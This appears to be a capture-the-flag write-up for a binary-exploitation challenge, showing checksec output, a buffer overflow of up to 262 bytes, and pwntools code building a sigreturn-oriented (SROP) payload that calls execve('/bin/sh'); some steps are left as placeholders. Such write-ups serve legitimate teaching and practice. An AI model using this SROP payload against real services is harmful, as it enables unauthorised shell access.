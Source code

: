 # Enumeration

First of all, we start with a `checksec`:  

```console
pwndbg> checksec
Arch:       amd64
RELRO:      No RELRO
Stack:      No canary found
NX:         NX unknown - GNU_STACK missing
PIE:        No PIE (0x42000)
Stack:      Executable
RWX:        Has RWX segments
Stripped:   No
```

As we can see, we can do something there!

The program has no interface, so we head into the disassembly right away.

### Disassembly

Starting with `_start()`:

![image](https://github.com/user-attachments/assets/38bc394c-4df5-4510-98a1-821a9ac64cb2)

![image](https://github.com/user-attachments/assets/f1b71c35-c417-4886-8d7d-c9c2c2ab5d9a)

That's the whole binary, we see there is a huge buffer overflow that `rdx` reads up to `0x106 = 262` bytes. First of all, we need to find a possible gadget and `/bin/sh` address.

```gdb 
Find all gadget and /bin/sh
```

Now that we have this, we can craft the `SROP` chain.
We want to execute system("/bin/sh") but in assembly language it is execve("/bin/sh", argument, env ) function.
```python
# Srop
frame     = SigreturnFrame()
frame.rax = 0x3b            # syscall number for execve
frame.rdi = binsh           # pointer to /bin/sh
frame.rsi = 0x0             # NULL - second argument
frame.rdx = 0x0             # NULL - third argument
frame.rip = rop.syscall[0]  # the next command execute
```

After crafting the `frame`, we send the payload to trigger the vulnerability and get shell.

```python
pl  = b'deadbeef'
pl += p64(rop.rax[0])
pl += p64(0xf)
pl += p64(rop.syscall[0])
pl += bytes(frame)
```

Running solver remotely at IP port

### Result


![image](https://github.com/user-attachments/assets/1cfc6b67-e5b1-42c0-8116-027ec9c7467d)

